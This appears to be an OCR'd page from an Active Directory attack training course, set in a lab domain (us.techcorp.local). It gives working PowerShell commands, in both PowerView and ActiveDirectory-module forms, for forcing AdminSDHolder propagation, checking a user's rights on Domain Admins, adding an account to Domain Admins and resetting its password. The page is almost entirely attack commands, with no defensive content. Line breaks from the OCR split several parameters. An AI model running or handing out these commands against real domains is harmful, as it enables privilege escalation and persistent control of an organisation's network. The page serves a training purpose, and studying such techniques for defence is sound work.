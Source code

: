 ```
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -
Verbose
```

For pre-Server 2008 machines:

```
Invoke-SDPropagator -taskname FixUpInheritance -
timeoutMinutes 1 -showProgress -Verbose
```

Check the Domain Admins permission - PowerView as normal user:

```
Get-DomainObjectAcl -Identity 'Domain Admins' -
ResolveGUIDs | ForEach-Object {$_ | Add-Member
NoteProperty 'IdentityName' $(Convert-SidToName
$_.SecurityIdentifier);$_} | ?{$_.IdentityName -match
"studentuser1"}
```

Using ActiveDirectory Module:

```
(Get-Acl -Path 'AD:\CN=Domain
Admins,CN=Users,DC=us,DC=techcorp,DC=local').Access |
?{$_.IdentityReference -match 'studentuser1'}
```

Abusing FullControl using PowerView:

```
Add-DomainGroupMember -Identity 'Domain Admins' -Members
testda -Verbose
```

Using ActiveDirectory Module:

```
Add-ADGroupMember -Identity 'Domain Admins' -Members
testda
```

Abusing ResetPassword using PowerView:

```
Set-DomainUserPassword -Identity testda -AccountPassword
(ConvertTo-SecureString "Password@123" -AsPlainText -
Force) -Verbose
```

Using ActiveDirectory Module:

```
Set-ADAccountPassword -Identity testda -NewPassword
(ConvertTo-SecureString "Password@123" -AsPlainText -
Force) -Verbose
```

#### ACLs – Rights Abuse
